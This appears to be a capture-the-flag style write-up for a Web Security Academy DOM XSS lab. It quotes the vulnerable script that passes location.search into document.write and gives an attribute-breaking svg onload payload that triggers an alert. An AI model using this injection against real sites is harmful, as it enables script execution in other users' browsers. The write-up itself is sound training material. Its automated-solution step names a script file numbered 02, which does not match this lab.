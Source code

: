 # XSS LAB 03 -  DOM XSS in document.write sink using source location.search

## Manual Solution

### 1. Access the Lab
- Access the Web Security Academy lab.

### 2. Make a search query
- Search query: `test`
- Press F12 or right click -> Inspect
- Notice the `trackSearch` function. This function getting the query from the URL and passing it to the `document.write` function.
```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
- Notice that the query is placed in the img tag. `<img src="/resources/images/tracker.gif?searchTerms=test">`

### 3. Make a new search query
- Query: `"><svg onload=alert("XSS")>` 
- This breaks the HTML structure and adds a svg tag. 
- `<img src="/resources/images/tracker.gif?searchTerms="> <svg onload=alert("XSS")>`
- An alert will be triggered.



## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python xss_lab_02.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)






